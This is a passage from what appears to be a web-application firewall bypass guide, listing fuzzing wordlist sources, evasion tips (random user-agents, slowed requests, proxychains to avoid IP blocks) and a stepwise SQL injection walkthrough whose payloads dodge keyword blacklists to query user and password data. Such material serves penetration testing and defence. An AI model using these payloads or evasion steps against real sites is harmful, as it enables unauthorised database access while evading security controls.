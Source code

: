 * Wordlists specifically for fuzzing
  * [Seclists/Fuzzing](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing).
  * [Fuzz-DB/Attack](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack)
  * [Other Payloads](https://github.com/foospidy/payloads)

**Technique:**

* Load up your wordlist into fuzzer and start the bruteforce.
* Record/log all responses from the different payloads fuzzed.
* Use random user-agents, ranging from Chrome Desktop to iPhone browser.
* If blocking noticed, increase fuzz latency \(eg. 2-4 secs\).
* Always use proxychains, since chances are real that your IP gets blocked.

**Drawbacks:**

* This method often fails.
* Many a times your IP will be blocked \(temporarily/permanently\).

#### Regex Reversing:

**Method:**

* Most efficient method of bypassing WAFs.
* Some WAFs rely upon matching the attack payloads with the signatures in their databases.
* Payload matches the reg-ex the WAF triggers alarm.

**Techniques:**

#### Blacklisting Detection/Bypass

* In this method we try to fingerprint the rules step by step by observing the keywords being blacklisted.
* The idea is to guess the regex and craft the next payloads which doesn't use the blacklisted keywords.

**Case**: SQL Injection

**• Step 1:**

**Keywords Filtered**: `and`, `or`, `union`  
**Probable Regex**: `preg_match('/(and|or|union)/i', $id)`

* **Blocked Attempt**: `union select user, password from users`
* **Bypassed Injection**: `1 || (select user from users where user_id = 1) = 'admin'`

**• Step 2:**

**Keywords Filtered**: `and`, `or`, `union`, `where`

* **Blocked Attempt**: `1 || (select user from users where user_id = 1) = 'admin'`
* **Bypassed Injection**: `1 || (select user from users limit 1) = 'admin'`

**• Step 3:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`

* **Blocked Attempt**: `1 || (select user from users limit 1) = 'admin'`
* **Bypassed Injection**: `1 || (select user from users group by user_id having user_id = 1) = 'admin'`
